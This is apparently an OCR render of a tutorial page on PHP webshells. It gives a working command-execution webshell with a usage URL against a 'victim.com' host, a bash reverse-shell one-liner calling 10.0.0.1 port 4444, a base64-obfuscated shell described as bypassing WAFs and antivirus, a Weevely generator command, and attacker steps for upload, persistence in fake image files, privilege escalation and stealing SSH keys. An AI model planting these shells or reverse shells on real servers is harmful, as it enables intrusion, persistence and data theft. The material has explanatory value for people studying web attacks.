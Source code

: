 **Basic PHP Webshell Example**

```php
<?php system($_GET['cmd']); ?>
```

- **Usage:**
    
    ```html
    http://victim.com/shell.php?cmd=id
    ```
    
    Returns: **`uid=33(www-data) gid=33(www-data) groups=33(www-data)`**
    

---

### **2. Common Webshell Types**

| **Type** | **Language** | **Example** | **Use Case** |
| --- | --- | --- | --- |
| **Simple Command Exec** | PHP | **`<?php system($_GET['cmd']); ?>`** | Basic RCE |
| **Reverse Shell Connector** | PHP/Python | **`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>`** | Upgrades to full shell |
| **File Manager** | PHP/ASP | **Weevely**, **C99**, **b374k** | File browsing, uploads, DB access |
| **Obfuscated/Encoded** | PHP/JSP | **`<?php eval(base64_decode("PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=")); ?>`** | Bypass WAFs/AV |

---

### **3. Popular Webshell Tools**

| **Tool** | **Description** | **Example** |
| --- | --- | --- |
| **Weevely** | Stealthy PHP webshell with built-in modules | **`weevely generate password123 shell.php`** |
| **C99** | Classic PHP file manager with SQL/command execution | https://i.imgur.com/xyz123.png |
| **b374k** | PHP webshell with terminal-like interface | https://i.imgur.com/abc456.png |
| **ASPXSpy** | .NET webshell for Windows servers | https://i.imgur.com/def789.png |

---

### **4. How Attackers Use Webshells**

1. **Initial Access**
    - Upload via vulnerable file upload forms (e.g., WordPress plugins).
    - Exploit **Local File Inclusion (LFI)** → **Remote File Inclusion (RFI)**.
2. **Persistence**
    - Hide in **`/tmp/`**, **`.htaccess`**, or fake image files (**`shell.jpg.php`**).
3. **Privilege Escalation**
    - Run commands like **`sudo -l`**, **`find / -perm -4000`**, or exploit kernel vulnerabilities.
4. **Lateral Movement**
    - Dump databases (**`mysqldump`**), steal SSH keys, or pivot to internal networks.

---